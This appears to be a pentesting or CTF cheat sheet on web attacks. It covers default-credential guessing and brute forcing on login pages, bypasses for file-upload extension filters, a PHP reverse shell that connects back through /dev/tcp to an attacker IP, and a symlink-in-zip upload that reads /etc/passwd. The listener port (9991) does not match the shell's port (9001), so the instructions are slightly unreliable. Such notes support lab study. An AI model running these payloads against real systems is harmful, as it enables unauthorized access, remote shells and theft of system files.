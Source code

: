 ### Login Page
The first step is to look for credentials in source code, if none are found look for default credentials online, otherwise use burp to bruteforce for default credentials.

If the website is based on a known ticket management system, a content management system or similar, look online for possible default credentials and try them, or for possible past vulnerable versions.

: Examples of default credentials are: admin/admin, user/password, root/password etc...

### File upload page
When a webpage allows file upload, an attacker can upload a file containing malicious code and run it.

Some of these webpages are protected by black-listing some file extensions, but that can easily be bypassed. Some techniques include doubling extensions `file.png.php` or adding null-bytes `file.php%00.png`

When we can upload files, always think of reverse shells php that can be submitted.

You can also use ready-to-use ones like the ones found here: <https://pentestmonkey.net/tools/web-shells/php-reverse-shell>

#### php code for reverse shell
An example of php code that can be injected to retrieve a reverse shell on port 9001 is:
```php
<?php
system('bash -c "bash -i >& /dev/tcp/10.13.37.10/9001 0>&1"');
php>
```

N.B.: make sure you have ran the following command beforehand, to have an active listener on your machine for any incoming connections:
```bash
$ nc -nvlp 9991
```
#### Zip file upload
In some cases, the security measure in place is a white-listing of certain files. One example that I encountered is a webpage that asks specifically for a pdf file in a zip file. In this case, I used symlinks.

The following command creates a link to the file `../../../../../../etc/passwd` and names that link as `document.pdf`
```bash
$ ln -s ../../../../../../etc/passwd document.pdf
```

The next command creates a symlink zip that will be uploaded.
```bash
$ zip --symlinks doc.zip document.pdf
```

After uploading, the webpage provides the url of the file location.

By inspecting the Network exchange we get a base64 response (stored in `responsebase64characters`) that is then deciphered using the following:
```bash
$ echo responsebase64characters | base64 -d
```
